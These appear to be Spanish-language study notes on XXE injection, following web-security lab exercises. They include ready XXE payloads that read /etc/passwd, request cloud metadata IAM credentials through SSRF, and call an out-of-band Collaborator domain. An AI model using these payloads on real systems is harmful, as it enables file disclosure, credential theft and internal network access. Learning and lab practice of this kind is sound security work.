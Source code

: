 # XXE Injection (XML external entity (XXE) injection)

## XML 

> XML significa lenguaje de marcado extensible. XML fue diseñado para almacenar y transportar datos. XML fue diseñado para ser legible tanto por humanos como por máquinas.

Para describir los datos de un XML se utilizan los "XML uses a DTD to describe the data" esto significa que un DTD define que datos van a ir y de que tipo son

Sintaxis basica:

```

<?xml version="1.0" encoding="UTF-8"?>
<note>
  <to>Tove</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>

``` 

## DTD What is document type definition?

> La definición de tipo de documento XML (DTD) contiene declaraciones que pueden definir la estructura de un documento XML, los tipos de valores de datos que puede contener y otros elementos. La DTD se declara dentro del DOCTYPEelemento opcional al comienzo del documento XML. La DTD puede ser completamente autónoma dentro del propio documento (conocido como "DTD interno") o puede cargarse desde otro lugar (conocido como "DTD externo") o puede ser un híbrido de los dos.


## XXE

A menudo, permite que un atacante vea archivos en el sistema de archivos del servidor de aplicaciones e interactúe con cualquier sistema externo o de back-end al que pueda acceder la propia aplicación.

## What are XML entities

XML entities are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities &lt; and &gt; represent the characters < and >. These are metacharacters used to denote XML tags, and so must generally be represented using their entities when they appear within data.

Ejemplo: 

```
<?xml version="1.0" encoding="UTF-8"?>
<note>
  <to>Tove</to>
  <from> &lt;Jani&gt; </from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>

```


En el ejemplo anterior las entidades &lt;y &gt;representan los caracteres <y >
  
> Las entidades XML son una forma de representar un elemento de datos dentro de un documento XML, en lugar de utilizar los datos en sí. Varias entidades están integradas en la especificación del lenguaje XML. Por ejemplo, las entidades &lt;y &gt;representan los caracteres <y >. Estos son metacaracteres que se utilizan para indicar etiquetas XML y, por lo tanto, generalmente deben representarse mediante sus entidades cuando aparecen dentro de los datos.

## Ataque 
  
  ***La DTD se declara dentro del DOCTYPEelemento opcional al comienzo del documento XML.*** XML permite definir entidades personalizadas dentro de la DTD. Por ejemplo:
  
  ```
  <!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
  
Entonces esta el XML en el inico se declara(opcionalmente) un DTD y dentro este se declaran entidades(entidades internas o externas se pueden cargar de otro lugar o hibridas) (***Las entidades XML son una forma de representar un elemento de datos dentro de un documento XML***) ( Varias entidades están integradas en la especificación del lenguaje XML. Por ejemplo, las entidades &lt;y &gt;representan los caracteres <y >)
  
  ```

Esta definición significa que cualquier uso de la referencia a la entidad &myentity;dentro del documento XML se reemplazará con el valor definido: " my entity value".
  
 ##  Las entidades externas XML como Vector de Ataque
  
  
Ya sabemos que son formas de representar datos y que so ninternas y externas las externas se cargan desde otro lado y por eso permiten el ataque.
  
> Las entidades externas XML son un tipo de entidad personalizada cuya definición se encuentra fuera de la DTD donde se declaran.
La declaración de una entidad externa utiliza la SYSTEMpalabra clave y debe especificar una URL desde la que se debe cargar el valor de la entidad. Por ejemplo:  

```
  
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>  

```  
  
  
  
La URL puede usar el file://protocolo, por lo que las entidades externas se pueden cargar desde el archivo. Por ejemplo:  
  
```  
  <!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
  
```
  
# Exploiting XXE using external entities to retrieve files
  
  La mas basica de este ataque donde no hay protecciones.
  
  ```

<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>2</storeId>
</stockCheck>

  ```
El &xxe; llama a la entidad que definimos en el DTD
  
# Exploiting XXE to perform SSRF attacks
  
  Podemos mediante el xxe hacer que el servidor visite url a las que tiene acceso por ejemplo a las de la red interna o  algun endpoint.
  
  > Además de la recuperación de datos confidenciales, el otro impacto principal de los ataques XXE es que pueden usarse para realizar una falsificación de solicitudes del lado del servidor (SSRF). Esta es una vulnerabilidad potencialmente grave en la que se puede inducir a la aplicación del lado del servidor a realizar solicitudes HTTP a cualquier URL a la que pueda acceder el servidor.
  
  Para este ataque nos damos cuenta que se envia un xml inyectamos en los parametros la entity y nos damos cuenta que en el primer elemento
  nos regresa una ruta asi se va sacando poco a poco informacion hasta que llegamos a obtener las claves el IAM de AWs
  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.168.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
<productId>
&xxe;</productId>
<storeId>
1
</storeId>
</stockCheck>
  
  ```
  
  Necesitariamos saber que esa IP tiene un endpoint que el servidor tiene acceso 
  
  
# Blind XXE with out-of-band interaction
  
  En este ejericio aunque se inyecte una entidad externa no regresa ningun cambio por lo cual probamos haciendo un ataque "vulnerabilidad al desencadenar interacciones fuera de banda con un dominio externo" usando el Burp Collaborator en donde lo que se inyecta intentara alcanzar el dominio que nos da el burp y por ahi podremos
exfiliar informacion.
  
  ```
  
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://ywycs7zj3x3yke65m5jfox94gvmlaa.oastify.com"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>

  ```
  
 EL burp colaborator permite ver los logs tanto del http como de DNS "Debería ver algunas interacciones DNS y HTTP iniciadas por la aplicación como resultado de su carga útil."
  
  
Referencias

Validador de XML
  
> http://xmlvalidator.new-studio.org/
  
> https://portswigger.net/web-security/xxe/xml-entities
  
> https://www.xmlvalidation.com/
  
